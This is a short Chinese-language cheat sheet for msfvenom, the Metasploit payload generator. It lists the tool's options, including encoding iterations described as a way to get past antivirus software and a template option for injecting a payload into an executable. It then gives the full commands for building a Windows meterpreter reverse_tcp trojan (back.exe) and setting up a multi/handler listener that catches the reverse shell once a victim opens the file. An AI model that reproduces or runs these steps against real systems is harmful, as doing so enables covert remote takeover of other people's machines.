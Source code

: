 # Msfvenom
---

Options: 

-p, --payload 指定需要使用的payload。使用自定义的payload，请使用-;或者stdin指定

 -l, --list  列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all 

-n, --nopsled 为payload预先指定一个NOP滑动长度 

-f, --format  指定输出格式

-e, --encoder 指定需要使用的编码 

-a, --arch 指定payload的目标架构 x64 x86 –platform 指定payload的目标平台 

-s, --space 设定有效攻击荷载的最大长度 

-b, --bad-chars 设定规避字符集，比如: & #039;\x00\xff& #039; 

-i, --iterations 指定payload的编码次数，绕杀毒 

-c, --add-code 指定一个附加的win32 shellcode文件 

-x, --template  指定一个自定义的可执行文件作为模板 

-k, --keep 保护模板程序的动作，注入的payload作为一个新的进程运行 –payload-options 列举payload的标准选项 

-o, --out  保存payload 

-v, --var-name 指定一个自定义的变量，以确定输出格式 

–shellest 最小化生成payload

---

生成简单木马

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe

msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 192.168.0.103

set lport 4444

exploit/run

将back.exe打开，反弹shell

meterpreter进行操作
